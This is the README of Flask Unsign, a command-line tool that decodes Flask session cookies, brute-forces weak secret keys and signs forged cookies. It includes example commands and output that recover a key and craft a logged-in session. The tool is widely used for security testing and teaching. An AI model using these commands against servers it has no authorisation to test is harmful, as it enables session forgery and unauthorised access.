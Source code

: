 # Flask Unsign
Command line tool to fetch, decode, brute-force and craft session cookies of a 
Flask  application by guessing secret keys.

## Installation
To install the application, simply use pip:

```
$ pip install flask-unsign[wordlist]
```

If you only want to install the core code, omit the `[wordlist]` suffix:

``` 
$ pip install flask-unsign
```

To install the tool for development purposes, run the following command (after downloading a copy):

```
$ pip install -e .[test]
```

## Usage

To get an overview of all possible options, simply call flask-unsign without 
any arguments like so:

``` 
$ flask-unsign
```

### Obtaining & Decoding Session Cookies
Due to the fact that Flask cookies are **signed** and **not encrypted**, it's 
possible to locally decode the session data. For this, you can use the `--decode` 
argument.

Session cookies can be obtained by inspecting your HTTP requests using a proxy 
like  Burp Proxy, using your browser's network inspector or using a browser 
extension to view/change your cookies. By default, Flask uses the session name
`"session"`. 

```
$ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
{'logged_in': False}
```

You can also use Flask-Unsign's automatic session grabbing functionality by 
passing the `--server` argument, instead of the `--cookie` argument. *Do note 
however, **that not all web pages might return a session**, so be sure to pass an
url which does.*

``` 
$ flask-unsign --decode --server 'https://www.example.com/login'
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8
{'logged_in': False}
```

### Unsigning (Brute Forcing Secret Keys)
After obtaining a sample session cookie, you'll be able to attempt to brute-force 
the server's secret key. If you're lucky, this might be set to something easy to 
guess, or if it's been found online, it might be in one of your wordlists. For 
this, you can use the `--unsign` argument.

``` 
$ flask-unsign --unsign --cookie < cookie.txt
[*] Session decodes to: {'logged_in': False}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 351 attempts
'CHANGEME'
```

### Signing (Session Manipulation)
Once you've obtained the server's secret key, you'll be able to craft your own 
custom session data. For this, you can use the `--sign` argument.

``` 
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
eyJsb2dnZWRfaW4iOnRydWV9.XDuW-g.cPCkFmmeB7qNIcN-ReiN72r0hvU
``` 

## Troubleshooting

* **I found a secret key, but my crafted sessions don't work!**
    * It might be possible that your target server uses an older version of 
      [itsdangerous](https://github.com/pallets/itsdangerous). Due to 
      [an issue](https://github.com/pallets/itsdangerous/issues/46) with timed 
      sessions, the timestamp generation algorithm was changed. 
      To generate an older signature, try using the `--legacy` option.
* **My wordlist doesn't work**
    * Wordlists expect to be newline delimited 
      [python strings](https://docs.python.org/3/library/stdtypes.html#str) 
      (meaning you need to encapsulate them in quotes), this is so that 
      binary strings can easily be stored in a newline format. If you don't want 
      this, you can disable this feature by passing the `--no-literal-eval` 
      argument.


## How it works
If you're wondering how exactly this works, refer to my 
[blog post](https://blog.paradoxis.nl/) which explains this in great detail, 
including a guide on how to protect your own server from this attack.

## License
MIT License

Copyright (c) 2019 Luke Paris (Paradoxis)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.